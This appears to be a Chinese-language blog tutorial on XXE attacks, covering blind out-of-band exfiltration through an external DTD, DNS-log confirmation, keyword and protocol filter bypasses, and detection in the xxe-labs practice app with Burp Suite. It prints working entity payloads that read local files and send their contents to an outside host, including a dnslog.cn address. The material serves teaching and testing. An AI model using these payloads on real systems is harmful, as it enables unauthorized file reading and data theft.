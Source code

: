     <!ENTITY % payload 
    "<!ENTITY &#x25; send SYSTEM 'http://127.0.0.1:80/?data=%file;'>"
    > 
    %payload;
    

解释一下以上代码，因为是没有了回显，那么先将读到的内容赋值给file,然后去请求我们（攻击者）服务器上的evil2.dtd文件，正好evil2.dtd中的内容是读取file,这样的话是不是也能实现读取1.txt文件中的内容，只不过是饶了一个弯。  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623173444852-852389934.png)  
然后对红框中的内容进行base64解码  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623173617710-1835994962.png)  
如此也是可以实现对无回显内容显示。如果你学的扎实的话会想到sql注入时无回显报错时我们讲的dns注入，可以借助dns的网站来判断是否存在xxe漏洞

##### 代码如下

    <!ENTITY % payload 
    "<!ENTITY &#x25; send SYSTEM 'http://04t1rn.dnslog.cn/?data=%file;'>"
    > 
    %payload;
    

如图所示，有回显  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623192008316-1334140152.png)  
当然，这个方法只是可以起到一个判断是否存在xxe漏洞的作用。

#### 2、绕过

###### 1>ENTITY、SYSTEM、file等关键词被过滤，可以采用编码的方式进行绕过，16进制等等

###### 2>若http被过滤，可以采用data://协议、file://协议、php://filter协议等等绕过

#### 3、检测

我们应该如何去判断网站是否存在xxe漏洞，用xxe-labs中的php作为案例来讲解一下，我们打开xxe-labs  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623204733927-321843994.png)  
随便输入账号密码进行抓包  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623205344211-1785043347.png)

其实这样的话是可以看出其符合xml语言的格式，然后将下面的代码替换为读取文件的代码  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623210628955-156568259.png)

##### 代码如下：

    <?xml version="1.0"?>
    <!DOCTYPE Mikasa [
    <!ENTITY admin SYSTEM  "file:///d:/1.txt">
    ]>
    <user><username>&admin;</username><password>123</password></user>
    

![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623210706679-1095542359.png)  
如上图所示，一下子就检测出了是xxe漏洞，如果抓取的数据包没有这么明显的代码，我们应该如何检测呢？我们可以利用burpsuit的自带爬虫，对他进行检测。1、抓包 2、点击target 3、找到对应数据包，右击 4、选择scan  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623212144432-1753396528.png)  
然后选择爬虫，点击OK  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623212259971-1358015296.png)  
因为我们的数据包不太多，如果数据包很多，我们是可以进行筛选的  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623212546418-165247678.png)  
筛选完了以后，我们看一下MIMEtype,找到xml,可以看一下数据包：Content-Type: application/xml;charset=utf-8，可以尝试修改，同上  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623212838854-884767316.png)  
这样是可以达到一个检测的功能。不一定xml格式就一定有xxe漏洞，但是可以测试。  